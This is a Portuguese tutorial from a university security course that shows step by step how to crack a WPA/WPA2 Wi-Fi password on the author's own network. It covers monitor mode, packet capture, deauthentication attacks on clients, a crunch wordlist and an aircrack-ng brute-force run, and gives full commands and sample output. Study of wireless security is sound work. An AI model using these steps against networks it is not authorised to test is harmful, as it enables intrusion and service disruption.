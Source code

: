 # Tutorial - Wi-Fi Cracking WPA/WPA2 (Brute Force)

## Introdução
Este tutorial tem o propósito de ilustrar, de maneira prática, de como ter o acesso de uma rede Wifi protegida com os métodos de criptográfia WPA/WPA2. Este tutorial foi desenvolvido como trabalho final para a mateŕia de Segurança e Auditoria de Sistemas, na Universidade Tecnológica Federal do Paraná (UTFPR-CP). Em um breve resumo, faremos um ataque de força bruta em cima de uma captura de pacotes, obtidos monitorando o tráfego da rede. Esse ataque é realizado com uma lista de possíveis senhas daquela rede Wifi.

__ATENÇÃO: Este tutorial foi realizado para fins educacionais, e não deve ser utilizada para atividades ilegais. O autor não é responsabilizado pelo uso indevido do mesmo__

## Pré requisitos

Neste tutorial será necessário que você:
- Esteja usando uma distro linux baseada no debian, de preferência o [Kali linux](https://www.kali.org/).
- Ter o [Aircrack-ng](http://aircrack-ng.org/) e o Crunch instalado em seu computador. Para instalar, use o seguintes comandos:
	Para instalar o Aircrack-ng 
	 ```
	 sudo apt-get install aircrack-ng
	 ```
    Para instalar o Crunch
    ```
    sudo apt-get install crunch
    ```
- Ter uma placa de rede sem fio que suporta o modo monitor. [Aqui](http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html) uma lista das placas de redes sem fio que suportam o modo monitor (Normalmente os todos notebooks suportam o modo monitor.)

## Tutorial

### Modo monitor
As placas de rede permitem alguns modos diferentes de operação. que são eles: *Master* (Atua como access point), *Managed* (cliente padrão), *Ad hoc*, *Mesh*, *Repeater*, *Promiscuous*, e o *Monitor mode*. Utilizaremos nossa placa de rede no modo monitor, em que ela permite que seu computador monitore todo o tráfego recebido da rede sem fio. Ao contrário do modo promíscuo, o modo monitor consegue capturar os pacotes sem estar associado a um access point.
Primero passo, precisamos listar as interfaces de rede de seu computador, para isso digite o seguinte comando:

```bash
sudo airmon-ng
```
Com isso, aparecerá algo parecido com isto em seu terminal:
```
Interface   	Chipset	        	Driver
wlan0	    	Atheros AR9485	    ath9k - [phy0]
```

Caso não liste nada, sua placa de rede não suporta o modo monitor. 

No meu caso, o nome da minha interface wireless é `wlan0`. No seu caso pode ser diferente, mas para o termino deste tutorial iremos utilizar a `wlan0`. Para iniciarmos o modo monitor basta digitar no terminal o seguinte comando:

```
sudo airmon-ng start wlan0
```

Neste momento, poderá dar um erro avisando que alguns processos que estão rodando poderão causar problemas. Para isso, você precisará usar o seguinte comando:

```
sudo airmon-ng check kill
```

Para confirmar se temos o modo monitor iniciado, é só utilizar o seguinte comando no terminal:

```
iwconfig
```

Se tudo estiver ocorrendo como planejado, aparecerá isto em seu terminal:
```
wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
          
lo        no wireless extensions.

enp2s0    no wireless extensions.

mon0      IEEE 802.11  Mode:Monitor  Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
```

### Encontrando seu alvo

Para iniciarmos a escuta da rede, utilizaremos o seguinte comando abaixo:

```bash
sudo airodump-ng mon0
```

Se tudo estiver ocorrendo como planejado, aparecerá isto em seu terminal:

```
 CH  4 ][ Elapsed: 8 s ][ 2017-11-19 00:09                                         
                                                                                                                                                                         
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                                         
 EC:4D:47:B3:F5:88  -65       90     3579  346   1  54e  WPA2 CCMP   PSK  MinhaCasa                                                                                    
 A0:F3:C1:BC:9E:2B  -85       67        0    0   1  54e. WPA2 CCMP   PSK  Sadi Isper                                                                                     
                                                                                                                                                                         
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                               
                                                                                                                                                                          
 (not associated)   8C:FA:BA:E4:A3:69  -80    0 - 1      0        2                                                                                                       
 (not associated)   C0:21:0D:DD:30:DF  -89    0 - 1      0        1                                                                                                       
 EC:4D:47:B3:F5:88  24:F5:AA:66:5A:54   -1    0e- 0      0     1878                                                                                                       
 EC:4D:47:B3:F5:88  F8:E0:79:C2:DE:17  -40    0 - 1      0        1                                                                                                       
 EC:4D:47:B3:F5:88  1C:87:2C:93:1C:AC  -53    0e- 0   1101     1716                                                                                                       
 EC:4D:47:B3:F5:88  14:1A:A3:FC:E7:E9  -78    0 - 6      0        1    
```

Como este tutorial foi feito para fins educacionais, a rede que iremos atacar é a que tem ESSID (nome da rede Wifi) é a "MinhaCasa", por motivos de eu ser o dono da rede. Para o próximo passo, precisaremos de duas informações desta etapa, o BSSID (Endereço MAC da rede) e o canal em que está sendo utilizado. No nosso caso, as informações serão as seguinte:
 - BSSID: `EC:4D:47:B3:F5:88`
 - CH (canal): `1`

### Capturando o Handshake

As redes que utiizam criptográfia WPA/WPA2 utilizam o "4-way handshake". O que precisamos saber neste momento é que para a conexão entre access point e cliente,é necessário uma série de quatro pacotes é usada para negociar uma chave criptográfica, que será utilizada para criptografar o processo de autenticação. Coletando estes pacotes, podemos conseguir a senha da rede Wifi. Para começar a captura dos pacotes, utilizaremos os seguintes comandos:
    
```bash
## -c: Canal em que se encontra a rede
## --bssid: Endereço MAC do access point
## -w: Diretório que ficará salvo a captura dos pacotes

sudo airodump-ng -c 1 --bssid EC:4D:47:B3:F5:88 -w . mon0
```
Para que a conexão entre cliente e access point seja desconectada, nos passaremos pelo access point e enviaremos frames (unidade de dados na camada de enlace) para os clientes. Os principais tipos de frames são os *Data Frames*(para transmissão de dados), *Control Frames*(controle de acesso do meio) e os *Management frames*(possuem informações de gerenciamento). Dentro dos *Management frames*, existe um frame que tem o nome de *Deauthentication*, que serve para desconectar de forma segura os dispositivos na rede. Como as informações estão sendo capturadas no passo anterior, iremos desautenticar o dispositivo da rede (faremos este passo em outro terminal), utilizando este frame. Utilizaremos o seguinte comando para que isso aconteça:

```bash
## -0 2 : enviará dois pacotes "deauth". (Isso irá desconectar o cliente da rede wifi por alguns instantes)
## -a: Endereço MAC do access point
## -c: O Endereço MAC do dispositivo em específico, que será utilizado para obter o "Handshake". 
## Caso queira mandar para todos os dispositivos da rede, é só não utilizar o argumento -c, como no exemplo abaixo:
sudo aireplay-ng -0 2 -a EC:4D:47:B3:F5:88 mon0
```

Caso conseguirmos os pacotes do Handshake, irá aparecer no primeiro terminal algo parecido com`WPA handshake: 00:00:00:00:00`.Portanto, podemos parar de capturar os pacotes, apertando `Ctrl+C`. Os pacotes ficaram salvos como nome de `.-01.cap`(o arquivo ficará oculto). Neste tutorial, iremos trocar o nome para 'mypackages.cap'.

### Criando a Wordlist
Na criação de uma wordlist, é interessante que se conheça o alvo atacado, criando assim uma wordlist específica para aquele alvo. Para este tutorial, criaremos uma wordlist que conterá somente números,tendo no total de 8 caracteres de tamanho.
Para criar a wordlist utilizaremos o crunch. O primeiro argumento será o número mínimo de caracteres que queremos nossa senha. O segundo argumento será o número máximo de caracteres que queremos nossa senha. O terceiro argumento será os caracteres que queremos combinar na nossa senha. Sabemos que o número mínimo de caracteres em uma senha WPA2 é de 8 caracteres, portanto criaremos uma wordlist que cobrirá todos os números de 8 caracteres (00000000 até 99999999). Para isso o usaremos o seguinte comando no terminal:

```bash
## -o: nome do arquivo de saída

crunch 8 8 0123456789 -o mywordlist.txt
```

Para wordlist mais elaboradas, digite no terminal `man crunch`.
### Obtendo a senha

Como no passo anterior já criamos uma wordlist para o ataque, utilizaremos o seguinte comando no terminal

```bash
## -a2: Especificando que a rede é WPA2
## -b: Endereço MAC do access point 
## -w: A wordlist criada
aircrack-ng -a2 -b EC:4D:47:B3:F5:88 -w mywordlist.txt mypackages.cap
```

Neste momento, começará o ataque por força bruta nos pacotes capturados. Quando a senha na wordlist for a senha desejada, irá aparecer no terminal algo parecido com isso, informando a senha da rede Wifi:

```
                                 Aircrack-ng 1.2 beta3


                   [00:00:12] 1414 keys tested (1017.96 k/s)


                         KEY FOUND! [ 00001414 ]


      Master Key     : A1 90 16 62 6C B3 E2 DB BB D1 79 CB 75 D2 C7 89 
                       59 4A C9 04 67 10 66 C5 97 83 7B C3 DA 6C 29 2E 

      Transient Key  : CB 5A F8 CE 62 B2 1B F7 6F 50 C0 25 62 E9 5D 71 
                       2F 1A 26 34 DD 9F 61 F7 68 85 CC BC 0F 88 88 73 
                       6F CB 3F CC 06 0C 06 08 ED DF EC 3C D3 42 5D 78 
                       8D EC 0C EA D2 BC 8A E2 D7 D3 A2 7F 9F 1A D3 21 

      EAPOL HMAC     : 9F C6 51 57 D3 FA 99 11 9D 17 12 BA B6 DB 06 B4 
```
